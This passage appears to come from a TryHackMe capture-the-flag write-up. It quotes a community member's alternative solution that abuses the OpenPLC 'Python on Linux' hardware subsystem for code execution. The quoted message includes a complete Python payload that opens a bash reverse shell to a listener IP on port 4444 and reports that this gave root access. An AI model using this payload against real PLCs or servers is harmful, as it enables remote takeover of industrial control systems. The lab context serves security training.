 
### EDIT: 
{{< notice callout >}}
After sharing this writeup on the fantastic TryHackMe Discord group, a friendly user named **Korizma** shared another possible solution, which we decided to include here for completeness, by exploiting the "Python Linux Hardware Subsystem".
{{< /notice >}}

**Here is Korizma’s full message:**

You can also get a reverse shell from KABOOM PT.2 using the Python Linux Hardware Subsystem. : the Hardware tab in the web dashboard, which featured a dropdown menu for "Python on Linux (PSM)". This powerful subsystem is designed to allow administrators to write custom drivers but effectively creates a feature-based RCE, allowing arbitrary Python code to be executed by the OpenPLC runtime.

  Exploit Development & Execution
  Initial payloads placed in the hardware_init() function failed, likely because the PLC's network stack was not fully initialized.

  The successful exploit was triggered from within the update_inputs() function, which is called on every PLC cycle. This ensured the system was in a stable state before execution. To prevent the main PLC loop from crashing, the final payload launches the reverse shell in a separate, non-blocking thread.

  Final PSM Exploit Payload
  This code was pasted into the PSM editor, saved, and triggered by restarting the PLC. 

  ```python

  # Final, Concrete PSM Exploit Payload
  import os
  import threading

  # A flag to ensure the exploit only runs once.
  exploit_attempted = False
  counter = 0

  def hardware_init():
      # Left empty to ensure PLC stability on boot.
      pass

  def update_inputs():
      # This function is called on every PLC cycle.
      global counter, exploit_attempted
      counter += 1
      
      # Execute exploit after 5 cycles to ensure PLC is stable.
      if counter == 5 and not exploit_attempted:
          exploit_attempted = True
          exploit_thread = threading.Thread(target=run_exploit, daemon=True)
          exploit_thread.start()

  def run_exploit():
      # This function contains the single, most reliable reverse shell payload.
      os.system("bash -c 'bash -i >& /dev/tcp/YOUR_LISTENER_IP/4444 0>&1'")

  def update_outputs():
      pass

```
  Pasting this code and restarting the PLC resulted in a root shell. GGs! 👑
